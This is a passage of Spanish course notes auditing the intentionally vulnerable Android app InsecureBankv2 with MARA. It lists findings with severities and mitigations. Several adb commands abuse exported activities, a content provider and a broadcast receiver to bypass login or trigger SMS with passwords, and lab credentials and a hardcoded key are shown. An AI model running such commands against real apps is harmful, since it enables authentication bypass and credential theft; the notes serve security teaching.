/opt/MARA_Framework/tools/androwarn/androwarn/search/manifest
/opt/MARA_Framework/tools/androwarn/androwarn/search/manifest/manifest.py
/opt/MARA_Framework/tools/androwarn/androwarn/search/manifest/manifest.pyc
/opt/MARA_Framework/tools/androwarn/androwarn/report
/opt/MARA_Framework/tools/androwarn/androwarn/report/report.py
/opt/MARA_Framework/tools/androwarn/androwarn/report/report.pyc
/opt/MARA_Framework/tools/androwarn/SampleApplication/AndroidManifest.xml
/opt/MARA_Framework/tools/compilers/jack-jacoco-reporter.jar
/opt/MARA_Framework/tools/yara-python/MANIFEST.in
/opt/MARA_Framework/data/diva-beta.apk/unzipped/META-INF/MANIFEST.MF
/opt/MARA_Framework/data/diva-beta.apk/unzipped/AndroidManifest.xml
/opt/MARA_Framework/data/diva-beta.apk/analysis/static/vulnerabilities/vulnerability_report.html
/opt/MARA_Framework/data/diva-beta.apk/analysis/static/malicious_activity/Report
/opt/MARA_Framework/data/diva-beta.apk/certificate/META-INF/MANIFEST.MF
/opt/MARA_Framework/data/diva-beta.apk/source/java/AndroidManifest.xml
/opt/MARA_Framework/data/diva-beta.apk/source/jadx/AndroidManifest.xml
/opt/MARA_Framework/data/diva-beta.apk/AndroidManifest.xml
/opt/MARA_Framework/data/InsecureBankv2.apk
/opt/MARA_Framework/data/InsecureBankv2.apk/unzipped/META-INF/MANIFEST.MF
/opt/MARA_Framework/data/InsecureBankv2.apk/unzipped/AndroidManifest.xml
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/apktool_cfg/com/android/insecurebankv2
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/baksmali/com/android/insecurebankv2
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/baksmali/com/google/android/gms/analytics/ExceptionReporter.smali
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/baksmali/com/google/android/gms/location/places/PlaceReport.smali
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/baksmali/com/google/android/gms/common/api/GoogleApiClient$ConnectionProgressReportCallbacks.smali
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/baksmali_cfg/com/android/insecurebankv2
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/apktool/com/android/insecurebankv2
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/apktool/com/google/android/gms/analytics/ExceptionReporter.smali
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/apktool/com/google/android/gms/location/places/PlaceReport.smali
/opt/MARA_Framework/data/InsecureBankv2.apk/smali/apktool/com/google/android/gms/common/api/GoogleApiClient$ConnectionProgressReportCallbacks.smali
/opt/MARA_Framework/data/InsecureBankv2.apk/analysis/static/vulnerabilities/vulnerability_report.html
/opt/MARA_Framework/data/InsecureBankv2.apk/analysis/static/malicious_activity/Report
/opt/MARA_Framework/data/InsecureBankv2.apk/certificate/META-INF/MANIFEST.MF
/opt/MARA_Framework/data/InsecureBankv2.apk/source/java/com/android/insecurebankv2
/opt/MARA_Framework/data/InsecureBankv2.apk/source/java/com/google/android/gms/analytics/ExceptionReporter.java
/opt/MARA_Framework/data/InsecureBankv2.apk/source/java/com/google/android/gms/location/places/PlaceReport.java
/opt/MARA_Framework/data/InsecureBankv2.apk/source/java/AndroidManifest.xml
/opt/MARA_Framework/data/InsecureBankv2.apk/source/jadx/com/android/insecurebankv2
/opt/MARA_Framework/data/InsecureBankv2.apk/source/jadx/com/google/android/gms/analytics/ExceptionReporter.java.jadx
/opt/MARA_Framework/data/InsecureBankv2.apk/source/jadx/com/google/android/gms/location/places/PlaceReport.java.jadx
/opt/MARA_Framework/data/InsecureBankv2.apk/source/jadx/AndroidManifest.xml
/opt/MARA_Framework/data/InsecureBankv2.apk/source/deobfuscated/InsecureBankv2.apk
/opt/MARA_Framework/data/InsecureBankv2.apk/InsecureBankv2.apk.jar
/opt/MARA_Framework/data/InsecureBankv2.apk/AndroidManifest.xml
/opt/MARA_Framework/data/InsecureBankv2.apk/InsecureBankv2.apk
```
donde destacamos:
- `/opt/MARA_Framework/data/InsecureBankv2.apk/analysis/static/vulnerabilities/vulnerability_report.html`
- `/opt/MARA_Framework/tools/AndroBugs/Reports/com.android.insecurebankv2_e91eec623beab84f5ed0ca3419197ba5383e266efa8550e5208a0785c9fef965b76e95fc1995c9d58665461b08e2a83a9f0ced3ddec1c8fd384a2408b08b9647.txt`
- Tenemos el código decompilado en:
  - `/opt/MARA_Framework/data/InsecureBankv2.apk/source/jadx/com/android/insecurebankv2`.
  - `/opt/MARA_Framework/data/InsecureBankv2.apk/source/java/com/android/insecurebankv2`.
  - `/opt/MARA_Framework/data/InsecureBankv2.apk/AndroidManifest.xml`.


**Copiamos el reporte generado por Mara al host fuera del contenedor:**
```
mkdir -p /apps/mara_results

cp /opt/MARA_Framework/data/InsecureBankv2.apk/analysis/static/vulnerabilities/vulnerability_report.html \
   /apps/mara_results/vulnerability_report_InsecureBankv2.html

cp /opt/MARA_Framework/tools/AndroBugs/Reports/com.android.insecurebankv2_e91eec623beab84f5ed0ca3419197ba5383e266efa8550e5208a0785c9fef965b76e95fc1995c9d58665461b08e2a83a9f0ced3ddec1c8fd384a2408b08b9647.txt \
   /apps/mara_results/AndroBugs_InsecureBankv2.txt


cp /opt/MARA_Framework/data/InsecureBankv2.apk/source/jadx/AndroidManifest.xml \
   /apps/mara_results/AndroidManifest_InsecureBankv2.xml
```

**Obtenemos los ficheros:**
- [AndroBugs_InsecureBankv2.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/AndroBugs_InsecureBankv2.txt)
- [AndroidManifest_InsecureBankv2.xml](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/AndroidManifest_InsecureBankv2.xml)
- [vulnerability_report_InsecureBankv2.html](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/vulnerability_report_InsecureBankv2.html)


**Vemos el informe html generado por Mara en `vulnerability_report_InsecureBankv2.html`:**


**Copiamos los ficheros que mara decompila fuera del contenedor:** Dentro del contenedor docker, ejecutamos:
```
mkdir -p /apps/mara_results/decompiled/jadx
mkdir -p /apps/mara_results/decompiled/java

cp -r /opt/MARA_Framework/data/InsecureBankv2.apk/source/jadx/com/android/insecurebankv2 \
  /apps/mara_results/decompiled/jadx/

cp -r /opt/MARA_Framework/data/InsecureBankv2.apk/source/java/com/android/insecurebankv2 \
  /apps/mara_results/decompiled/java/

cp /opt/MARA_Framework/data/InsecureBankv2.apk/AndroidManifest.xml \
  /apps/mara_results/AndroidManifest.xml
```

**Obtenemos los ficheros decompilados:**
- [jadx](https://github.com/soniasalido/cybersecurity/tree/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2)

- [java](https://github.com/soniasalido/cybersecurity/tree/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/java/insecurebankv2)


# **4. Análisis estático de los ficheros decompilados**

## **4.1 AndroidManifest.xml**
El AndroidManifest.xml confirma varios problemas importantes de seguridad. Los más críticos están relacionados con componentes exportados, permisos sensibles, backup habilitado, debug activo y superficie de ataque innecesaria.

### **Información general de la app**
```
<manifest
    package="com.android.insecurebankv2"
    android:versionCode="1"
    android:versionName="1.0">
```
La aplicación analizada pertenece al paquete: `com.android.insecurebankv2`.

Define:
```
<uses-sdk
    android:minSdkVersion="15"
    android:targetSdkVersion="22" />
```

Esto indica que la app está orientada a Android antiguo. `targetSdkVersion="22` implica que no aplica varias protecciones modernas introducidas en versiones posteriores de Android, especialmente restricciones más estrictas sobre permisos, almacenamiento, tráfico claro y componentes exportados.

Riesgo: medio.


### **Hallazgo M-01 — Aplicación debuggable**
```
<application
    android:debuggable="true"
    android:allowBackup="true">
```
donde:
- La app está marcada como: `android:debuggable="true"`.

Esto facilita la depuración, inspección y manipulación de la aplicación mediante herramientas como adb, debuggers, Frida, JADX, MARA o Android Studio.

**Impacto:** Un atacante con acceso al dispositivo o al entorno de análisis puede inspeccionar procesos, logs, memoria, comportamiento de la app y datos internos con mayor facilidad.

**Severidad:** Media-Alta.

**Mitigación:** En producción marcar: `android:debuggable="false"`


### **Hallazgo M-02 — Backup habilitado**
```
android:allowBackup="true"
```

La app permite backup de sus datos locales. Esto es especialmente grave porque la aplicación guarda credenciales en SharedPreferences, como veremos proximamente en:
```
mySharedPreferences.xml
EncryptedUsername
superSecurePassword
```

**Impacto:** Un atacante podría intentar extraer datos locales mediante mecanismos de backup o restauración, dependiendo del entorno Android y configuración del dispositivo.

**Severidad:** Alta.

**Mitigación:** Marcar: `android:allowBackup="false"`. O definir reglas de backup que excluyan credenciales, bases de datos, preferencias y ficheros sensibles.


### **Hallazgo M-03 — Permisos excesivos y sensibles**
Permisos especialmente delicados:
| Permiso                            | Riesgo                                                 |
| ---------------------------------- | ------------------------------------------------------ |
| `INTERNET`                         | Permite enviar credenciales y datos al backend         |
| `WRITE_EXTERNAL_STORAGE`           | Permite escribir extractos en almacenamiento externo   |
| `SEND_SMS`                         | Permite enviar SMS, usado por `MyBroadCastReceiver`    |
| `READ_PHONE_STATE`                 | Permite acceder a información del dispositivo/teléfono |
| `READ_CONTACTS`                    | Acceso a contactos                                     |
| `READ_CALL_LOG`                    | Acceso a historial de llamadas                         |
| `ACCESS_COARSE_LOCATION`           | Acceso a ubicación aproximada                          |
| `GET_ACCOUNTS` / `USE_CREDENTIALS` | Acceso relacionado con cuentas del dispositivo         |


**Impacto:** La app tiene una superficie de privacidad muy amplia para una aplicación bancaria de laboratorio. En combinación con componentes exportados, almacenamiento inseguro y logs sensibles, estos permisos aumentan el impacto potencial.

**Severidad:** Alta.

**Mitigación:** Aplicar principio de mínimo privilegio. Eliminar permisos que no sean estrictamente necesarios.

### **Hallazgo M-04 — PostLogin exportada**
```
<activity
    android:label="@string/title_activity_post_login"
    android:name="com.android.insecurebankv2.PostLogin"
    android:exported="true" />
```
PostLogin es el panel posterior al login. Al estar exportada, puede abrirse directamente desde fuera de la app.

Podemos usar para acceder desde fuera de la app:
```
adb shell am start \
  -n com.android.insecurebankv2/.PostLogin \
  --es uname dinesh
```

**Impacto:** Bypass del flujo normal de autenticación.

**Severidad:** Alta.

### **Hallazgo M-05 — DoTransfer exportada**
```
<activity
    android:label="@string/title_activity_do_transfer"
    android:name="com.android.insecurebankv2.DoTransfer"
    android:exported="true" />
```
DoTransfer gestiona transferencias y consulta de cuentas.


Podemos usar para consulta de cuentas
```
adb shell am start \
  -n com.android.insecurebankv2/.DoTransfer \
  --es uname dinesh
```

**Impacto:** Una app externa o un atacante con adb puede abrir directamente la pantalla de transferencias.

**Severidad:** Alta.


### **Hallazgo M-06 — ViewStatement exportada**
```
<activity
    android:label="@string/title_activity_view_statement"
    android:name="com.android.insecurebankv2.ViewStatement"
    android:exported="true" />
```

ViewStatement carga extractos desde almacenamiento externo en un WebView.


Podemo cargar extractos desde almacenamiento externo en un WebView:
```
adb shell am start \
  -n com.android.insecurebankv2/.ViewStatement \
  --es uname dinesh
```

**Impacto:** Permite intentar visualizar extractos usando un uname controlado por Intent. Además, esta Activity carga HTML local en WebView.

**Severidad:** Alta.


### **Hallazgo M-07 — ChangePassword exportada**
```
<activity
    android:label="@string/title_activity_change_password"
    android:name="com.android.insecurebankv2.ChangePassword"
    android:exported="true" />
```

ChangePassword permite cambiar contraseña.

Podemos probar para cambiar la contraseña:
```
adb shell am start \
  -n com.android.insecurebankv2/.ChangePassword \
  --es uname dinesh
```

**Impacto:** Permite abrir directamente la pantalla de cambio de contraseña. En combinación con HTTP en claro y validación débil server-side, el riesgo es alto.

**Severidad:** Alta.


### **Hallazgo M-08 — TrackUserContentProvider exportado**
```
<provider
    android:name="com.android.insecurebankv2.TrackUserContentProvider"
    android:exported="true"
    android:authorities="com.android.insecurebankv2.TrackUserContentProvider" />
```

Este provider está exportado y no define permisos de lectura o escritura:
```
android:readPermission
android:writePermission
```


Podemos probar xxxxxxx:
```
adb shell content query \
  --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

**Impacto:** Otra app podría consultar, insertar, modificar o borrar datos del provider si no hay controles internos robustos.

**Severidad:** Alta.


**Mitigación:** Indicar: `android:exported="false"`. O proteger con permisos:
```
android:readPermission="com.android.insecurebankv2.permission.READ_TRACKER"
android:writePermission="com.android.insecurebankv2.permission.WRITE_TRACKER"
```

### **Hallazgo M-09 — MyBroadCastReceiver exportado**
```
<receiver
    android:name="com.android.insecurebankv2.MyBroadCastReceiver"
    android:exported="true">
    <intent-filter>
        <action android:name="theBroadcast" />
    </intent-filter>
</receiver>
```

El receiver acepta la acción:
```
theBroadcast
```

Desde el análisis de código, este receiver lee extras como:
```
phonenumber
newpass
```
y puede enviar SMS con información sensible.


Podemos probar xxxxxxx:
```
adb shell am broadcast \
  -a theBroadcast \
  --es phonenumber "123456789" \
  --es newpass "NuevaPass@123"
```

**Impacto:** Otra app puede enviar un broadcast a este receiver. En combinación con el código de MyBroadCastReceiver, esto puede provocar envío de SMS o exposición de contraseñas.

**<mark>Severidad: Crítica.</mark>**


**Mitigación:** Marcar: `android:exported="false"`. O proteger con permiso signature.


## **4.2 BuildConfig.java.jadx**

### **Hallazgo F-01 - Build debug** 

En [BuildConfig.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/BuildConfig.java.jadx) aparece:

```
public static final java.lang.String BUILD_TYPE = "debug";
```
donde:
- Una APK de tipo debug suele facilitar análisis, logging, inspección y extracción de datos. En un entorno real, esto sería un problema de hardening.

**Severidad:** Media.

**Mitigación:** Compilar releases con:
```
debuggable false
minifyEnabled true
shrinkResources true
```
y firmar con certificado de release.

----

## **4.3 CryptoClass.java.jadx**

En el fichero [CryptoClass.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/CryptoClass.java.jadx)


### **Hallazgo F-02 - Encontramos una clave criptográfica hardcodeada**
```
r0 = "This is the super secret key 123";
r1.key = r0;
```
donde:
- En `CryptoClass.java.jadx:14-15` se declara una clave fija dentro de la APK.

**Impacto:** Cualquier persona que decompile la app puede recuperar la clave y descifrar los datos protegidos con ella. Esto invalida el cifrado local.

**Severidad:** Alta

### **Hallazgo F-03 - IV estático en AES-CBC**
```
r0 = new byte[16];
r0 = {0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};
r1.ivBytes = r0;
```
donde:
- En `CryptoClass.java.jadx:16-19` se define un IV de 16 bytes todos a cero.
- Impacto: AES-CBC con IV fijo produce cifrados repetibles para el mismo plaintext. Esto rompe una propiedad básica esperada del cifrado simétrico: que dos mensajes iguales no generen el mismo ciphertext.

**Severidad:** Alta

### **Hallazgo F-04 - Uso de AES/CBC/PKCS5Padding sin protección de integridad**
```
r3 = "AES/CBC/PKCS5Padding";
r0 = javax.crypto.Cipher.getInstance(r3);
```
donde:
- Está presente en `CryptoClass.java.jadx:29-30` y `CryptoClass.java.jadx:44-45`.

**Impacto:** AES-CBC no proporciona autenticidad ni integridad. Aunque el contenido esté cifrado, no hay protección contra manipulación del ciphertext. Además, en esta app el problema se agrava por la clave hardcodeada y el IV estático.

**Severidad:** Alta

**Mitigación:** Usar Android Keystore y cifrado autenticado, por ejemplo AES-GCM, con claves no exportables: Android Keystore + AES/GCM/NoPadding + IV aleatorio por operación.


----

## **4.4 DoLogin.java.jadx**
En [DoLogin.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/DoLogin.java.jadx) encontramos:


### **Hallazgo F-05 - Comunicaciones HTTP en claro para login**
```
r0 = "http://";
r1.protocol = r0;
```
donde:
- En `DoLogin.java.jadx:340-341` se define el protocolo HTTP.

El endpoint /login se construye dinámicamente:
```
protocol + serverip + ":" + serverport + "/login"
```
donde:
- Está visible en `DoLogin.java.jadx:194-211`.

**Impacto:** Usuario y contraseña viajan sin cifrado. Esto permite captura de credenciales mediante MITM, tcpdump, Burp, Wireshark o cualquier proxy de red.

**Severidad:** Alta

Aquí tenems una evidencia dinámica que ya confirmamos:
```
POST /login
username=dinesh&password=Dinesh@123$
```

**Mitigación:** Usar HTTPS obligatorio, bloquear cleartext traffic y validar certificados.

### **Hallazgo F-06 - Endpoint de desarrollo /devlogin activado por usuario devadmin**
La app construye también un endpoint /devlogin:
```
protocol + serverip + ":" + serverport + "/devlogin"
``` 
donde:
- Se encuentra en `DoLogin.java.jadx:212-229`.

Luego compara el usuario con devadmin:
```
r9 = "devadmin";
r8 = r8.equals(r9);
```
donde:
- Se encuentra en `DoLogin.java.jadx:245-248`.

Si coincide, ejecuta la petición contra /devlogin:
```
r2.setEntity(r8);
r6 = r0.execute(r2);
```
donde:
- Se encuentra en `DoLogin.java.jadx:251-254`.

**Impacto:** La lógica de autenticación contiene una ruta especial de desarrollo. Si el backend acepta /devlogin sin validación robusta, se obtiene bypass de autenticación.

**Severidad:** Crítica

**Mitigación:** Eliminar endpoints y usuarios de desarrollo en builds no controlados. La lógica de autenticación especial no debe residir en cliente.


### **Hallazgo F-07 - Almacenamiento local de credenciales en SharedPreferences**

La app usa el fichero: `mySharedPreferences`. Lo podemos en contrar en `DoLogin.java.jadx:96`.

Guarda dos claves:
```
"EncryptedUsername"
"superSecurePassword"
```
donde:
- Se encuentra en `DoLogin.java.jadx:118-123`.

El usuario se codifica con Base64:
```
android.util.Base64.encodeToString(...)
```
donde:
- Se encuentra en `DoLogin.java.jadx:104-110`.

La contraseña se cifra con CryptoClass:
```
r1 = new com.android.insecurebankv2.CryptoClass;
r5 = r1.aesEncryptedString(r5);
```
donde:
- Se encuentra en `DoLogin.java.jadx:111-117`.

**Impacto:** La app guarda usuario y contraseña reutilizables en el dispositivo. El usuario solo está en Base64 y la contraseña puede descifrarse porque la clave AES está dentro de la APK.

**Severidad:** Alta

**Evidencia dinámica que ya obtuvimos:**
```
<string name="EncryptedUsername">ZGluZXNo</string>
<string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==</string>
```
donde:
 - `ZGluZXNo` decodifica a: `dinesh`.
- `superSecurePassword` puede descifrarse con la clave de [CryptoClass.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/CryptoClass.java.jadx).

**Mitigación:** No guardar contraseñas en cliente. Usar tokens de sesión de vida corta, Android Keystore y EncryptedSharedPreferences si hay que persistir secretos.


### **Hallazgo F-08 - Logging de credenciales**
Después de una autenticación correcta, la app registra usuario y contraseña:
```
r8 = "Successful Login:";
...
r10 = r12.this$0;
r10 = r10.username;
...
r10 = r12.this$0;
r10 = r10.password;
...
android.util.Log.d(r8, r9);
```
donde:
- Se encuentra en `DoLogin.java.jadx:279-293`.

**Impacto:** Credenciales expuestas en logcat. En dispositivos antiguos, entornos debug o dispositivos rooteados, otras apps o un operador local pueden acceder a esos logs.

**Severidad:** Alta

**Mitigación:** Eliminar logs de credenciales, tokens, PII y datos financieros. Implementar redacción de logs y desactivar logging sensible en release.


### **Hallazgo F-09 - Registro de usuarios en ContentProvider**
Al hacer login, la app inserta el usuario en un ContentProvider:
```
r2 = r4.this$1.this$0.getContentResolver();
r3 = com.android.insecurebankv2.TrackUserContentProvider.CONTENT_URI;
r0 = r2.insert(r3, r1);
```
donde:
- Se encuentra en `DoLogin.java.jadx:40-44`.

**Impacto:** Por sí solo, esto registra usuarios localmente. Si el `TrackUserContentProvider` está exportado en el Manifest, como vimos en el análisis anterior, otra app puede consultar o manipular esos datos.

**Severidad:** Alta si el provider está exportado; media si es interno.

**Mitigación:** No exportar el provider, aplicar permisos `readPermission/writePermission` y evitar almacenar datos sensibles innecesarios.


### **Hallazgo F-10 - Flujo de navegación inseguro y frágil**

`DoLogin.onCreate()` llama a:
```
r6.finish();
```
donde:
- Se encuentra en `DoLogin.java.jadx:361`
 
Pero después el `AsyncTask` intenta abrir `PostLogin`:
```
r5 = new android.content.Intent(... PostLogin.class);
...
r8.startActivity(r5);
```
donde:
- Se encuentra en `DoLogin.java.jadx:300-310`.

**Impacto:** Esto explica parte de los comportamientos raros que viste en logcat, como: `startActivity called from finishing ActivityRecord`. No es la vulnerabilidad principal, pero demuestra mala gestión del ciclo de vida Android. Puede generar fallos o navegación inconsistente en versiones modernas.

**Severidad:** Baja-Media.

**Mitigación:** No llamar `finish()` antes de terminar el flujo. Mover la navegación a `onPostExecute()` o usar `runOnUiThread()` de forma controlada.


----

## **4.5 ChangePassword.java.jadx**
En [ChangePassword.java.jadx](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/mara_results/decompiled/jadx/insecurebankv2/ChangePassword.java.jadx) encontramos:

#### **Hallazgo F-11 - Cambio de contraseña por HTTP en claro**
La clase inicializa:
```
r0 = "http://";
r1.protocol = r0;
```
donde:
- Se encuentra en `ChangePassword.java.jadx:338-339`.

Construye el endpoint:
```
protocol + serverip + ":" + serverport + "/changepassword"
```
donde:
- Se encuentra en `ChangePassword.java.jadx:247-264`.

**Impacto:** La nueva contraseña viaja por HTTP sin cifrado.

**Severidad:** Alta.

### **Hallazgo F-12 - Cambio de contraseña basado solo en username y newpassword**
La petición envía únicamente:
```
"username"
"newpassword"
```
donde:
- Se encuentra en `ChangePassword.java.jadx:268-280`.
- No se observa envío de contraseña actual, token de sesión, cookie, JWT ni cabecera de autorización.

**Impacto:** Si el backend no aplica autenticación fuerte, un atacante solo necesita conocer el usuario para intentar cambiar su contraseña.

**Severidad:** Alta

**Mitigación:** El cambio de contraseña debe exigir sesión válida server-side, contraseña actual o reautenticación, CSRF protection si aplica y controles de autorización en backend.


### **Hallazgo F-13 - Validación de complejidad solo en cliente**
La política de contraseña se define en cliente:
```
private static final java.lang.String PASSWORD_PATTERN =
"((?=.*\\d)(?=.*[a-z])(?=.*[A-Z])(?=.*[@#$%]).{6,20})";
```
donde:
- Se encuentra en `ChangePassword.java.jadx:4`.

Luego se valida antes de enviar:
```
Pattern.compile(...)
matcher(...)
matches()
```
donde:
- Se encuentra en `ChangePassword.java.jadx:285-301`.

**Impacto:** Cualquier validación solo en cliente puede ser omitida con Burp, curl, modificación de APK o llamada directa al endpoint. El backend debe repetir la validación.

**Severidad:** Media-Alta

### **Hallazgo F-14 - Envío de nueva contraseña por Broadcast implícito**
Tras cambiar la contraseña, la app crea un intent sin clase ni paquete explícito:
```
r0 = new android.content.Intent;
r0.<init>();
r1 = "theBroadcast";
r0.setAction(r1);
```
donde:
- Se encuentra en `ChangePassword.java.jadx:381-384`.

Añade datos sensibles:
```
r0.putExtra("phonenumber", r4);
r0.putExtra("newpass", r5);
```
donde:
- Se encuentra en `ChangePassword.java.jadx:385-388`.

Y lo envía:
```
r3.sendBroadcast(r0);
```
donde:
- Se encuentra en `ChangePassword.java.jadx:389`.

**Impacto:** La nueva contraseña se introduce en un broadcast implícito. Si hay receivers capaces de escuchar esa acción, o si el receiver propio está exportado, puede producirse exposición o manipulación del flujo.

**Severidad:** Alta

**Mitigación:** Usar broadcasts explícitos internos, LocalBroadcastManager en apps antiguas o comunicación directa entre componentes no exportados. No enviar contraseñas en extras de intents.


### **Hallazgo F-15 - Lectura y logging del número de teléfono**
La app obtiene el número de línea:
```
r3 = (android.telephony.TelephonyManager) r3;
r4 = r3.getLine1Number();
```
donde:
- Se encuentra en `ChangePassword.java.jadx:95-97`.

Y lo imprime:
```
r7 = "phonno:";
...
r5.println(r6);
```
donde:
- Se encuentra en `ChangePassword.java.jadx:98-105`.

**Impacto:** Exposición de número de teléfono en logs. Además, `getLine1Number()` implica tratamiento de dato personal.

**Severidad:** Media

**Mitigación:** No registrar números de teléfono. Solicitar permisos solo si son estrictamente necesarios y justificar su uso.


----

## **4.6 DoTransfer.java.jadx**

### **Hallazgo F-16 — Transferencias por HTTP en claro**

En `DoTransfer.java.jadx:861-862` se inicializa el protocolo:
```
r0 = "http://";
r1.protocol = r0;
```

La clase construye endpoints HTTP dinámicos para:
```
/getaccounts
/dotransfer
```

Evidencia:
```
"/getaccounts"   // DoTransfer.java.jadx:180
"/dotransfer"    // DoTransfer.java.jadx:664
```

También usa `DefaultHttpClient` y `HttpPost`:
```
new org.apache.http.impl.client.DefaultHttpClient;   // líneas 164 y 648
new org.apache.http.client.methods.HttpPost;         // líneas 166 y 650
```

**Impacto:** Las operaciones bancarias viajan sin TLS. Esto expone credenciales, cuentas origen/destino e importes ante interceptación de red.

**Severidad:** Alta

**Mitigación:** Usar HTTPS obligatorio, bloquear tráfico cleartext y aplicar validación de certificado/certificate pinning si el modelo de amenaza lo requiere.

### **Hallazgo F-17 — Reutilización de credenciales almacenadas para operar transferencias**
En `DoTransfer.java.jadx` lee credenciales desde `mySharedPreferences`:
```
"mySharedPreferences"       // DoTransfer.java.jadx:185 y 669
"EncryptedUsername"         // líneas 188 y 671
"superSecurePassword"       // líneas 199 y 680
```

Luego decodifica el usuario en Base64:
```
android.util.Base64.decode(...)   // línea 192 y 673
```

Y descifra la contraseña mediante CryptoClass:
```
com.android.insecurebankv2.DoTransfer.access$000(...)   // líneas 202-205 y 682-685
```

Después envía ambos valores en la petición:
``` 
"username"   // línea 211 y 691
"password"   // línea 217 y 697
```

**Impacto:** La app no usa un token de sesión de vida corta. Recupera la contraseña guardada localmente, la descifra y la reenvía al backend. Si un atacante extrae `SharedPreferences` y la clave de `CryptoClass`, puede recuperar credenciales y operar contra el backend.

**Severidad:** Alta.

**Mitigación:** No almacenar ni reutilizar contraseñas. Usar sesiones/token server-side con expiración, refresh controlado y almacenamiento seguro mediante Android Keystore cuando aplique.


### **Hallazgo F-18 — Parámetros de transferencia controlados desde UI sin validación local robusta**
La app toma directamente los valores de los campos:
```
"from_acc"   // DoTransfer.java.jadx:721
"to_acc"     // DoTransfer.java.jadx:729
"amount"     // DoTransfer.java.jadx:737
```

En `DoTransfer.java.jadx:720-742` los valores se leen con:
```
from.getText().toString()
to.getText().toString()
amount.getText().toString()
```


**Impacto:** El cliente permite construir peticiones con cuenta origen, cuenta destino e importe arbitrarios. La seguridad no puede depender del cliente: el backend debe validar titularidad de cuenta, saldo, límites, formato, autorización y antifraude.

**Severidad:** Alta si el backend no valida correctamente; Media si el backend valida.

**Mitigación:** Validación server-side obligatoria para cuenta origen, cuenta destino, importe, usuario autenticado y estado de sesión.


### **Hallazgo F-19 — Escritura de extractos en almacenamiento externo**
Cuando la transferencia tiene éxito o falla, la app escribe un fichero HTML en almacenamiento externo:
```
android.os.Environment.getExternalStorageDirectory();   // líneas 496 y 595
"/Statements_"                                         // líneas 498 y 597
".html"                                                // líneas 504 y 603
new java.io.FileWriter(..., true)                      // líneas 508-510 y 606-609
```

El nombre del fichero incluye el usuario:
```
usernameBase64ByteString   // líneas 502 y 601
```

En `DoTransfer.java.jadx:426-492` y `533-591`. el contenido incluye:
```
Message
From
To
Amount
```

**Impacto:** Los extractos quedan en almacenamiento externo, que en Android antiguo o mal configurado puede ser accesible por otras apps o por el usuario mediante filesystem. Además, el fichero es HTML y se construye con datos no escapados.

**Severidad:** Alta.

**Mitigación:** Guardar extractos sensibles en almacenamiento interno privado, cifrar en reposo si hay necesidad real de persistencia y evitar almacenamiento compartido para datos financieros.


### **Hallazgo F-20 — Logging de datos financieros**
La app imprime detalles de la transferencia con System.out.println:
```
java.lang.System.out   // DoTransfer.java.jadx:426 y 533
```

Construye mensajes en `DoTransfer.java.jadx:426-462` para éxito y `533-561` para fallo:
```
Message
From
To
Amount
```

**Impacto:** Datos financieros quedan expuestos en logs. Esto puede revelar cuentas origen/destino e importes.

**Severidad:** Media-Alta.

**Mitigación:** Eliminar logs sensibles. Usar logging mínimo, redacción de datos y desactivar logs de debug en producción.


### **Hallazgo F-21 — Validación de éxito basada en substring**
Para /getaccounts, se comprueba si la respuesta contiene:
```
"Correct"   // DoTransfer.java.jadx:257
```

Para /dotransfer, se comprueba si contiene:
```
"Success"   // DoTransfer.java.jadx:391
```

**Impacto:** El cliente decide éxito/fallo mediante búsqueda de texto en la respuesta. Esto es frágil y manipulable si el tráfico puede interceptarse, más aún porque la comunicación es HTTP.

**Severidad:** Media.

**Mitigación:** Usar respuestas estructuradas firmadas/validadas, HTTPS y controles server-side. El cliente no debe ser fuente de verdad para operaciones financieras.

----

## **4.7 FilePrefActivity.java.jadx**
